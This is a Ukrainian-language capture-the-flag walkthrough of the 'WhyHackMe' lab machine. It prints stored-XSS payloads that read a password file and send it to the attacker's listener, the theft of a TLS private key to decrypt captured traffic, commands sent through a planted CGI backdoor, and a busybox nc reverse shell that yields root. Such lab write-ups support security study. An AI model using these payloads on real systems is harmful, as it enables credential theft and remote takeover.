# WhyHackMe - Dive into the depths of security and analysis with WhyHackMe.

Складність: Medium

Ціль:

## 1. Розвідка (Reconnaissance & Enumeration)

### 1.1. Сканування портів (Nmap):

```bash
└─$ sudo nmap -sV -sC -oN nmap_scan.txt 10.113.143.191
```



```bash
└─$ ftp 10.113.143.191
ftp> ls -lah
229 Entering Extended Passive Mode (|||14935|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        119          4096 Mar 14  2023 .
drwxr-xr-x    2 0        119          4096 Mar 14  2023 ..
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> get update.txt
...
└─$ cat update.txt 
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 
- admin
```

```bash
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -u http://10.113.143.191/ -k -t 50 -x html,txt,php
```



```html
<script>alert(1)</script>

```

```svg
<svg onload=alert(1)>
```





У коментарях фільтруються символи `<` та `>`. Перевіряємо далі ім'я користувача 



Після надсилання коментаря, відпраював XSS.





```html
<script>document.body.innerHTML='XSS'</script>
```




```html
<script>fetch('/dir/pass.txt').then(r=>r.text()).then(t=>fetch('http://192.168.130.250:4444/?data='+btoa(t)))</script>
```


```bash
└─$ echo 'PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT40MDMgRm9yYmlkZGVuPC90aXRsZT4KPC9oZWFkPjxib2R5Pgo8aDE+Rm9yYmlkZGVuPC9oMT4KPHA+WW91IGRvbid0IGhhdmUgcGVybWlzc2lvbiB0byBhY2Nlc3MgdGhpcyByZXNvdXJjZS48L3A+Cjxocj4KPGFkZHJlc3M+QXBhY2hlLzIuNC40MSAoVWJ1bnR1KSBTZXJ2ZXIgYXQgMTAuMTEzLjE0My4xOTEgUG9ydCA4MDwvYWRkcmVzcz4KPC9ib2R5PjwvaHRtbD4K' | base64 -d
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.113.143.191 Port 80</address>
</body></html>
```

```html
<script>fetch('http://127.0.0.1/dir/pass.txt').then(r=>r.text()).then(t=>fetch('http://192.168.130.250:4444/?data='+btoa(t)))</script>
```

Нічого не відбулося.Перевіряю далі.

```html
<script>fetch('http://127.0.0.1/dir/pass.txt').then(r=>alert(r.status)).catch(e=>alert(e))</script>
```



Підготуємо пейлоад для віпрацювання свого скрипта

```html
<script src="http://192.168.130.250:4444/lol.js"></script>
```

логінимось та лишаємо коментар

```js
fetch('/dir/pass.txt')
  .then(r => r.text())
  .then(data => {
      new Image().src = 'http://192.168.130.250:4444/?data=' + encodeURIComponent(data);
  });
```



Логінимся по `ssh` та забираємо `user.txt`.





```bash
jack@ubuntu:~$ sudo iptables -L -n -v --line-numbers
Chain INPUT (policy ACCEPT 0 packets, 0 bytes)
num   pkts bytes target     prot opt in     out     source               destination         
1      794 47640 DROP       tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:41312
2    28434 3220K ACCEPT     all  --  lo     *       0.0.0.0/0            0.0.0.0/0           
3     888K  134M ACCEPT     all  --  *      *       0.0.0.0/0            0.0.0.0/0            ctstate NEW,RELATED,ESTABLISHED
4        0     0 ACCEPT     tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:22
5        0     0 ACCEPT     tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:80
6        0     0 ACCEPT     icmp --  *      *       0.0.0.0/0            0.0.0.0/0            icmptype 8
7        0     0 ACCEPT     icmp --  *      *       0.0.0.0/0            0.0.0.0/0            icmptype 0
8        6   240 DROP       all  --  *      *       0.0.0.0/0            0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
num   pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy ACCEPT 29228 packets, 3267K bytes)
num   pkts bytes target     prot opt in     out     source               destination         
1     905K  413M ACCEPT     all  --  *      eth0    0.0.0.0/0            0.0.0.0/0
```

```bash
jack@ubuntu:~$ ls -lah /opt
total 40K
drwxr-xr-x  2 root root 4.0K Aug 16  2023 .
drwxr-xr-x 19 root root 4.0K Mar 14  2023 ..
-rw-r--r--  1 root root  27K Aug 16  2023 capture.pcap
-rw-r--r--  1 root root  388 Aug 16  2023 urgent.txt
jack@ubuntu:~$ cat /opt/urgent.txt 
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try to remove them, they wont, even though I am root. Please go through the pcap file in /opt and help me fix the server. And I temporarily blocked the attackers access to the backdoor by using iptables rules. The cleanup of the server is still incomplete I need to start by deleting these files first.
```

Також забираю собі `capture.pcap` та досліджую за допомогою `Wireshark`.



Трафік зашифрований. Шукаємо як його розшифрувати.

```bash
jack@ubuntu:/opt$ find /etc/apache2 -type f
/etc/apache2/magic
/etc/apache2/certs/apache.key
/etc/apache2/certs/apache-certificate.crt
/etc/apache2/conf-available/charset.conf
/etc/apache2/conf-available/localized-error-pages.conf
/etc/apache2/conf-available/serve-cgi-bin.conf
/etc/apache2/conf-available/other-vhosts-access-log.conf
...
```

```bash
jack@ubuntu:/opt$ cat /etc/apache2/sites-enabled/*
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ScriptAlias "/cgi-bin/" "/usr/local/apache2/cgi-bin/"
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        #ErrorLog ${APACHE_LOG_DIR}/error.log
        #CustomLog ${APACHE_LOG_DIR}/access.log combined
        ErrorLog /dev/null

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
Listen 41312
<VirtualHost *:41312>
        ServerName www.example.com
        ServerAdmin webmaster@localhost
        #ErrorLog ${APACHE_LOG_DIR}/error.log
        #CustomLog ${APACHE_LOG_DIR}/access.log combined
        ErrorLog /dev/null
        SSLEngine on
        SSLCipherSuite AES256-SHA
        SSLProtocol -all +TLSv1.2
        SSLCertificateFile /etc/apache2/certs/apache-certificate.crt
        SSLCertificateKeyFile /etc/apache2/certs/apache.key
        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        AddHandler cgi-script .cgi .py .pl
        DocumentRoot /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride All 
                Options +ExecCGI -Multiviews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>
```

```bash
└─$ scp jack@10.113.143.191:/etc/apache2/certs/apache.key .
```

Edit → Preferences → Protocols → TLS.



```bash
jack@ubuntu:/opt$ sudo iptables -D INPUT 1
[sudo] password for jack: 
jack@ubuntu:/opt$ sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere            
ACCEPT     all  --  anywhere             anywhere             ctstate NEW,RELATED,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ssh
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply
DROP       all  --  anywhere             anywhere            

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere
```

```bash
└─$ sudo nmap -sV -p41312 10.113.143.191                   

]]Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-27 22:37 +0100
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Ping Scan Timing: About 100.00% done; ETC: 22:37 (0:00:00 remaining)
Nmap scan report for 10.113.143.191
Host is up (0.038s latency).

PORT      STATE SERVICE VERSION
41312/tcp open  http    Apache httpd 2.4.41
Service Info: Host: www.example.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds
```

```bash
└─$ curl -k 'https://10.113.143.191:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id'

<h2>uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
<h2>
```

```bash
└─$ curl -k 'https://10.113.143.191:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo%20-l'

<h2>Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
<h2>
```

```bash
└─$ curl -k 'https://10.113.143.191:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo%20busybox%20nc%20192.168.130.250%204545%20-e%20%2Fbin%2Fsh'
└─$ nc -lvnp 4545       
listening on [any] 4545 ...
connect to [192.168.130.250] from (UNKNOWN) [10.113.143.191] 34848
id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```



